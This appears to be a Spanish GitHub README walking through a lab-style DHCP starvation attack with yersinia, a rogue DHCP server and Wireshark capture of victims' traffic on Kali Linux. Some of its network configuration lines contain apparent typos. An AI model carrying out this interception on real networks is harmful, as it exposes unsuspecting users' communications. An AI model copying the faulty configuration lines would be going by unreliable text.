 # Spoofing.kali
Suplantación del servidor DHCP en una red mediante un ataque "starvation" y posterior suplantación para escucha de informacion.

## Configuración red de maquina atacante Kali
Lo primero es configurar nuestra máquina atacante con dos tarjetas de red, una para la red interna en la que hará la suplantación del servicio DHCP y otra que conectará con el internet para proveer de internet a los usuarios engañados y poder escuchar su información, haciendo función de un router normal.<br>
```
    sudo nano -c /etc/network/interfaces
```
```
    ####RED INTERNA####
    auto eth0
    iface eth0 inet static
        address 192.168.1.66
        netmask 255.255.255.0
        dns-nameservers 8.8.8.8, 8.8.4.4

    ####RED EXTERNA####
    auto eht1
    iface eth1 inet static
        address 10.4.33.130
        netmask 255.255.255.0
        gateway 10.33.4.1
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/3f313f7e-8bd3-461b-868d-7822a120b7d2) <br>

- **Habilitación de Forwarding persistente** <br>

Ahora debemos configurar nuestra máquina atacante para que pueda hacer un reenvío de paquetes y funcionar como router.
```
    sudo nano -c /sysctl.conf
```
Esta opción viene comentada, con buscarla y descomentarla sirve. Esta es una forma persistente de activar el forwarding.
```
    net.ipv4.ip_forward=1
```
- **Habilitación de nateo persistente** <br>
Por último debemos crear un pequeño script que habilite el nateo cada vez que se arranque el ordenador:
```
    sudo nano -c masquerade.sh
```
```
    #!/bin/bash
    sudo iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/056aa1ba-51f7-400f-a051-69fa823f0ae6)

Una vez creado el script, podemos hacer que se ejecute con un cron de forma automática:
```
    sudo crontab -e
```
```
    ##Sustituir ruta por la ruta en la que se encuentre el script
    @reboot /home/administrador/masquerade.sh
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/bf13804f-180d-43ea-96b0-01b4bc0dcdb9)

- **Reinicio del sistema y comprobación**
Comprobar que tenemos la configuración red correcta, el forwarding activado y el nateo:
  * Reiniciar<br>
      ```
          sudo reboot
      ```
  * IP <br>
  ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/4aeb46b3-8221-4a30-bd6d-099b877f8b17)
    ```
         ip a
    ```
  * Forwarding <br>
    ```
        cat /proc/sys/net/ipv4/ip_forward
    ```
  * Nateo <br>
    ```
        sudo iptables -nv -t nat -L POSTROUTING
    ```
    ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/c16142ad-cfeb-4062-91a2-096255fa2907)

## Inicio del ataque starvation
Para el ataque starvation usaremos yersinia, su interfaz gráfica no funciona bien, así que usaremos su consola en fomato visual
```
    sudo apt-get install yersinia
```
```
    sudo yersinia -I
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/aa63a0ea-4fdd-402e-a80d-a18b66f6d813) <br>
Debemos usar el modo DHCP, así que pulsamos `Espacio + F2` <br>
---
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/5fbda515-0010-42c9-a531-e10fea809567) <br>
Ahora abrimos el menú de ataques con `x` y pulsamos el ataque `1` envío de DHCPDISCOVER <br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/77e0c585-b8d7-438f-bd21-102a7789da94) <br>
El ataque ya ha sido lanzado, podemos dejarlo en ejecución o bien dejarlo un tiempo prudencial en el que le de tiempo a ocupar todas las IPs y luego apagarlo con `l` (L minúscula) <br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/11810f7b-cd3b-4a21-9c0c-6d1adaf3cb76) <br>
Una vez lanzado el ataque y ocupado todas las IPs del servidor DHCP, debemos hacernos pasar nosotros por servidor DHCP. Para ello volvemos al menú con `x` y y elegimos la opción `2` de creación de un servidor DHCP.<br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/4dda990d-ef86-47e4-bebd-754511593c7e) <br>
Configuración del servidor DHCP malicioso: <br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/5eea8c83-558f-4358-a37c-c8a20a4ff225) <br>

## Escucha de información con Wireshark
Una vez alguien trate de conectarse al router original, no tendrá IPs para otorgarle y entonces nosotros le daremos una IP falsa sin que él se percate, este podrá conectarse a internet con normalidad pero a través de nuestro router no del suyo, lo que nos permite escuchar toda su información.
```
    sudo apt install wireshark
```
```
    sudo wireshark
```
Seleccionamos nuestra tarjeta de red interna y podremos ver todos los paquetes enviados y recividos de la máquina engañada.
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/105fdbd8-fc46-4c29-979e-32fd90ea8473)


